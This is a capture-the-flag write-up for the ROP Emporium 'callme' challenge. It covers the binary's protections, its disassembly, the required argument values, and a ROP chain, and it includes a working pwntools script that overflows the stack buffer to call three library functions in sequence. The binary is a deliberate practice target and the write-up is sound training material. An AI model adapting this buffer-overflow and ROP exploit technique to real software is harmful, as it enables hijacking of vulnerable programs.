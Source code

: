 # callme(ROP Emporium 3)

## info

### checksec
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
RUNPATH:    b'.'
Stripped:   No
```

### usefulFuntion: 0x4008f2
```asm
00000000004008f2 <usefulFunction>:
  4008f2:	55                   	push   rbp
  4008f3:	48 89 e5             	mov    rbp,rsp
  4008f6:	ba 06 00 00 00       	mov    edx,0x6
  4008fb:	be 05 00 00 00       	mov    esi,0x5
  400900:	bf 04 00 00 00       	mov    edi,0x4
  400905:	e8 e6 fd ff ff       	call   4006f0 <callme_three@plt>
  40090a:	ba 06 00 00 00       	mov    edx,0x6
  40090f:	be 05 00 00 00       	mov    esi,0x5
  400914:	bf 04 00 00 00       	mov    edi,0x4
  400919:	e8 22 fe ff ff       	call   400740 <callme_two@plt>
  40091e:	ba 06 00 00 00       	mov    edx,0x6
  400923:	be 05 00 00 00       	mov    esi,0x5
  400928:	bf 04 00 00 00       	mov    edi,0x4
  40092d:	e8 ee fd ff ff       	call   400720 <callme_one@plt>
  400932:	bf 01 00 00 00       	mov    edi,0x1
  400937:	e8 14 fe ff ff       	call   400750 <exit@plt>
```

### callme_one, two, three
need 3 arguments: `rdi`, `rsi`, `rdx`
```asm
 82e:	48 b8 ef be ad de ef 	movabs rax,0xdeadbeefdeadbeef
 835:	be ad de 
 838:	48 39 45 e8          	cmp    QWORD PTR [rbp-0x18],rax
 83c:	0f 85 d0 00 00 00    	jne    912 <callme_one+0xf8>
 842:	48 b8 be ba fe ca be 	movabs rax,0xcafebabecafebabe
 849:	ba fe ca 
 84c:	48 39 45 e0          	cmp    QWORD PTR [rbp-0x20],rax
 850:	0f 85 bc 00 00 00    	jne    912 <callme_one+0xf8>
 856:	48 b8 0d f0 0d d0 0d 	movabs rax,0xd00df00dd00df00d
 85d:	f0 0d d0 
 860:	48 39 45 d8          	cmp    QWORD PTR [rbp-0x28],rax
 864:	0f 85 a8 00 00 00    	jne    912 <callme_one+0xf8>
```
- rdi: 0xdeadbeefdeadbeef
- rsi: 0xcafebabecafebabe
- rdx: 0xd00df00dd00df00d

### callme_one
```c
FILE f = fopen("encrypted_flag.dat", "r");
if (f == NULL) {
    exit(1);
}

char *g_buf = malloc(0x21);
char *ret = fgets(g_buf, 0x21, f);
fclose(f);
puts("callme_one() called correctly");
```

### callme_two
```c
FILE f = fopen("key1.dat", "r");
if (f == NULL) {
    exit(1);
}

for (int i = 0; i < 0x10; i++) {
    int ch = fgetc(f);
}

fclose(f);
puts("callme_one() called correctly");
```

need: callme_one -> callme_two -> callme_three

## Solution
call functions by plt

### strategy
1. call `usefulGadget` with 3 arguments
2. call `callme_one@plt`, `callme_two@plt`, `callme_three@plt`

ROP chain:
- pop rdi, rsi, rdx; ret: 0x40093c
- rdi: 0xdeadbeefdeadbeef
- rsi: 0xcafebabecafebabe
- rdx: 0xd00df00dd00df00d
- callme_one@plt: 0x400720
- pop rdi, rsi, rdx; ret
- rdi: 0xdeadbeefdeadbeef
- rsi: 0xcafebabecafebabe
- rdx: 0xd00df00dd00df00d
- callme_two@plt: 0x400740
- pop rdi, rsi, rdx; ret
- rdi: 0xdeadbeefdeadbeef
- rsi: 0xcafebabecafebabe
- rdx: 0xd00df00dd00df00d
- callme_three@plt: 0x4006f0

## Script
```python
from pwn import *

conn = process('./callme')

payload = b'A' * 0x28
payload += p64(0x40093c) 
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x400720)
payload += p64(0x40093c) 
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x400740)
payload += p64(0x40093c) 
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x4006f0)

conn.sendlineafter('> ', payload)
conn.interactive()
```

## OMAKE
encrypted_flag: 
```
00000000  53 4d 53 41 91 d9 f5 a6  8a d5 c5 b7 db db 9d be  |SMSA............|
00000010  ca da b2 ed 2a 84 63 bc  71 b5 70 a0 7c 79 3e 5d  |....*.c.q.p.|y>]|
```

true flag: 
```
00000000  52 4f 50 45 7b 61 5f 70  6c 61 63 65 68 6f 6c 64  |ROPE{a_placehold|
00000010  65 72 5f 33 32 62 79 74  65 5f 66 6c 61 67 21 7d  |er_32byte_flag!}|
```